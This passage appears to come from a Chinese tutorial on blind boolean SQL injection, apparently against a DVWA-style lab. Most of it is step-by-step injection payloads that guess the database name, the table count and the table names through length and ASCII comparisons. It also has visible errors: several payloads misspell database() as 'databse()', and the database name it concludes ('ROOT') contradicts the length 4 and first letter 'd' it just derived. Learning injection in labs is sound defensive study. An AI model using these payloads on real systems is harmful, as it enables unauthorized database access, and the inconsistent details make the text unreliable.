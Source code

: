 
#### 2.猜解当前数据库名
想要猜解数据库名，首先要猜解数据库名的长度，然后挨个猜解字符。
>输入`1’ and length(database())=1 #`，显示不存在；
>
>输入`1’ and length(database())=2 #`，显示不存在； 
> 
>输入`1’ and length(database())=3 #`，显示不存在； 
> 
>输入`1’ and length(database())=4 #`，显示存在：

说明数据库名长度为4。

下面采用二分法猜解数据库名
> * 输入`1’ and ascii(substr(databse(),1,1))>97 #`，显示存在，说明数据库名的第一个字符的ascii值大于97（小写字母a的ascii值）；
>
> * 输入`1’ and ascii(substr(databse(),1,1))<122 #`，显示存在，说明数据库名的第一个字符的ascii值小于122（小写字母z的ascii值）；
> 
> * 输入`1’ and ascii(substr(databse(),1,1))<109 #`，显示存在，说明数据库名的第一个字符的ascii值小于109（小写字母m的ascii值）；
>
> * 输入`1’ and ascii(substr(databse(),1,1))<103 #`，显示存在，说明数据库名的第一个字符的ascii值小于103（小写字母g的ascii值）；
>
> * 输入`1’ and ascii(substr(databse(),1,1))<100 #`，显示不存在，说明数据库名的第一个字符的ascii值不小于100（小写字母d的ascii值）；
>
> * 输入`1’ and ascii(substr(databse(),1,1))>100 #`，显示不存在，说明数据库名的第一个字符的ascii值不大于100（小写字母d的ascii值），所以数据库名的第一个字符的ascii值为100，即小写字母d。
> * …
    
重复上述步骤，就可以猜解出完整的数据库名（ROOT）了。
    
#### 3.猜解数据库中的表名
首先猜解数据库中表的数量：
>*  输入`1’ and (select count (table_name) from information_schema.tables where table_schema=database())=1 #` 显示不存在 
> 
>*  输入`1’ and (select count (table_name) from information_schema.tables where table_schema=database() )=2 # `显示存在

说明数据库中共有两个表。
接着挨个猜解表名：
>*  输入`1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=1 #` 显示不存在 
> 
>*  输入`1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=2 #` 显示不存在 
> 
>*  … 
> 
>*  输入`1’ and length(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1))=9 #` 显示存在

说明第一个表名长度为9。

>* 输入`1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>97 #` 显示存在 
>
>* 输入`1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<122 #` 显示存在 
>
>* 输入`1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<109 #` 显示存在 
>
>* 输入`1’ and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))<103 #` 显示不存在 
>